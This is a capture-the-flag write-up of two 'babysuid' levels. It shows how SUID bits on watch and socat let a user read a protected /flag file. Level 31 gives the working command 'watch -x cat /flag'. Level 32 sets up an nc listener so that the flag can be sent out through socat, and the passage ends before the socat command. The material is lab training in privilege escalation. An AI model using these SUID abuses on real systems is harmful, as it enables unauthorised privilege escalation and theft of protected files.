 &nbsp;

## level 31

> Enables you to read flags by making them execute other commands!

```
hacker@program-misuse~level31:/$ /challenge/babysuid_level31 
Welcome to /challenge/babysuid_level31!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/watch.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level31) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/watch!
```

The `watch` utility repeats a command at specified intervals.

```
watch -x cat /flag
```

&nbsp;

## level 32

> Enables you to read flags by making them execute other commands!

```
hacker@program-misuse~level32:/$ /challenge/babysuid_level32 
Welcome to /challenge/babysuid_level32!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/socat.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level32) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/socat!
```

The `socat` utility establishes two bidirectional byte streams and transfers data between them.

Let us set up a `nc` listener on port 80.

```
hacker@program-misuse~level32:/$ nc -nlvp 80
Listening on 0.0.0.0 80
```

Now, using `socat`, we can send the contents of `/flag` over port 80.
